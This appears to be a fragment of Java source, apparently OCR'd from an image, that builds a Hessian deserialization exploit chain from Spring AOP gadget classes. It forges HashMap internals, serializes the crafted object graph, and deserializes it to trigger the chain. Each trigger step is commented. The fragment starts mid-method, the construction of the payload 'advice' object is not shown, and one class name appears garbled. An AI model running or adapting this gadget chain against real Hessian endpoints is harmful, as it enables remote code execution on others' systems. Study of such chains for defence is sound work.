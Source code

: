 ```java
        // PartiallyComparableAdvisorHolder.toString will be called during deserialization, and AspectJPointcutAdvisor.getOrder will be triggered.
        AspectJPointcutAdvisor advisor = createWithoutConstructor(AspectJPointcutAdvisor.class);
        setFieldValue(advisor, "advice", advice);

        // Xstring.equals will be called during deserialization, triggering PartiallyComparableAdvisorHolder.toString.
        Class<?> pcahCl = Class.forName("org.springframework.aop.aspectj.autopproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder");
        Object pcah = createWithoutConstructor(pcahCl);
        setFieldValue(pcah, "advisor", advisor);

        // HotSwappableTargetSource.equals will be called during deserialization, triggering Xstring.equals.
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(pcah);
        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(new XString("h3rmesk1t"));

        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, hotSwappableTargetSource1, hotSwappableTargetSource1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, hotSwappableTargetSource2, hotSwappableTargetSource2, null));
        setFieldValue(hashMap, "table", tbl);

        // Hessian serializes data
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
        AllowNonSerializableFactory serializableFactory = new AllowNonSerializableFactory();
        serializableFactory.setAllowNonSerializable(true);
        hessianOutput.setSerializerFactory(serializableFactory);
        hessianOutput.writeObject(hashMap);
        byte[] serializedData = byteArrayOutputStream.toByteArray();
        System.out.println("Hessian serialized data is: " + new String(serializedData, 0, serializedData.length));

        // Hessian deserializes data
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(serializedData);
        HessianInput hessianInput = new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
}
```

